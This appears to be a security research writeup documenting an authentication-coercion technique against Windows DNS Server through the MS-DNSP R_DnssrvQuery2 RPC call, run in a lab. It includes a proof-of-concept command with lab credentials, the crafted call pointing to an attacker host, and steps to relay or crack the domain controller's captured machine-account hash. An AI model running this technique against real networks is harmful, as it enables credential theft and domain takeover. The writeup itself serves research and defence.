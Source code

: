 # MS-DNSP - Remote call to R_DnssrvQuery2 (opnum 6)

## Summary

 - **Protocol**: [[MS-DNSP]: Domain Name Service (DNS) Server Management Protocol](https://docs.microsoft.com/en-us/openspecs/windows_protocols/ms-dnsp/f97756c9-3783-428b-9451-b376f877319a)

 - **Protocol UUID**: 50abc2a4-574d-40b3-9d66-ee4fd5fba076

 - **Protocol version**: 0.0

 - **SMB Named pipe**: `\PIPE\DNSSERVER`

 - **Function name**: [`R_DnssrvQuery2`](https://docs.microsoft.com/en-us/openspecs/windows_protocols/ms-dnsp/a90a44f0-f64e-44b0-9e35-a7fc49f6adea)

 - **Function operation number**: `6`

 - **Authenticated**: Yes


## Description

In order to call a remote procedure to trigger an authentication from the remote machine to an arbitrary target, we first need to authenticate to the remote machine, usually on SMB. Then we need to connect to the remote SMB pipe `\PIPE\DNSSERVER` and bind to the desired [`MS-DNSP`](https://docs.microsoft.com/en-us/openspecs/windows_protocols/ms-dnsp/f97756c9-3783-428b-9451-b376f877319a) protocol (with uuid `50abc2a4-574d-40b3-9d66-ee4fd5fba076` and version `0.0`) in order to perform remote procedure calls to functions in the [`MS-DNSP`](https://docs.microsoft.com/en-us/openspecs/windows_protocols/ms-dnsp/f97756c9-3783-428b-9451-b376f877319a) protocol.

The IP 192.168.2.51 being my attacking machine where I listen with Responder, and 192.168.2.1 being the IP of my Windows Server. When starting this script, it will authenticate and connect to the remote pipe named `\PIPE\DNSSERVER` This pipe is connected to the protocol [[MS-DNSP]: Domain Name Service (DNS) Server Management Protocol](https://docs.microsoft.com/en-us/openspecs/windows_protocols/ms-dnsp/f97756c9-3783-428b-9451-b376f877319a) and allows to call RPC functions of this protocol. We will then call the remote [`R_DnssrvQuery2`](https://docs.microsoft.com/en-us/openspecs/windows_protocols/ms-dnsp/a90a44f0-f64e-44b0-9e35-a7fc49f6adea) function on the remote Windows Server (192.168.2.1) with the following parameters:

```cpp
R_DnssrvQuery2('192.168.2.51\x00')
```

We can try this with this proof of concept code ([coerce_poc.py](./coerce_poc.py)):

```bash
./coerce_poc.py -d "LAB.local" -u "user1" -p "Podalirius123!" 192.168.2.51 192.168.2.1
```

![](./imgs/poc.png)

This will force the Windows Server (192.168.2.1) to authenticate to the SMB share `\\192.168.2.51\share` and therefore authenticate using its machine account (`DC01$`).  After this RPC call, we get an authentication from the domain controller with its machine account directly on Responder:

![](./imgs/hash.png)

After this step, we relay the authentication to other services in order to elevate our privileges, or try to downgrade it to NTLMv1 and crack it in order to get the NT hash of the domain controller's machine account. This kind of vulnerabilities allows to quickly get from user to domain administrator in unprotected domains!


## Function technical detail

```cpp
LONG R_DnssrvQuery2(
   [in]                                   handle_t                hBindingHandle,
   [in]                                   DWORD                   dwClientVersion,
   [in]                                   DWORD                   dwSettingFlags,
   [in, unique, string]                   LPCWSTR                 pwszServerName,
   [in, unique, string]                   LPCSTR                  pszZone,
   [in, unique, string]                   LPCSTR                  pszOperation,
   [out]                                  PDWORD                  pdwTypeId,
   [out, switch_is(*pdwTypeId)]           DNSSRV_RPC_UNION*       ppData
 );
```

## References

 - Documentation of protocol [MS-DNSP]: Domain Name Service (DNS) Server Management Protocol: https://docs.microsoft.com/en-us/openspecs/windows_protocols/ms-dnsp/f97756c9-3783-428b-9451-b376f877319a

 - Documentation of function `R_DnssrvQuery2`: https://docs.microsoft.com/en-us/openspecs/windows_protocols/ms-dnsp/a90a44f0-f64e-44b0-9e35-a7fc49f6adea